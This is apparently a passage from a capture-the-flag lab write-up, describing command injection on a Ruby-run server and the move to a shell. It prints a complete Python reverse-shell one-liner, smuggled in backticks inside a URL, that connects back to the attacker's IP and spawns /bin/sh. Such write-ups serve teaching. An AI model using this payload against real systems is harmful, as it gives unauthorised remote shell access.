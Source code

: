 ![Untitled](Images/Untitled%203.png)

![Untitled](Images/Untitled%204.png)

Oh wow! It works! That’s awesome. If you can’t see it it’s the word “ruby” in the above screenshot, that’s our user.

For reference we try a few different reverse shells, given we’ve got command exec on the server we’re not trying to use a ruby reverse shell (where we inject code in to the process running ruby), we can just shell out to python (via `sh` or `bash` , whichever ruby is shelling out to). We’re going to run python and use the `sockets` library. Don’t forget to change the IP in `s.connect` to your IP as this is a reverse shell, so the target is talking back to our machine instead of our machine talking to the server.

```jsx
http://10.10.16.2:8000?%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

![Untitled](Images/Untitled%205.png)

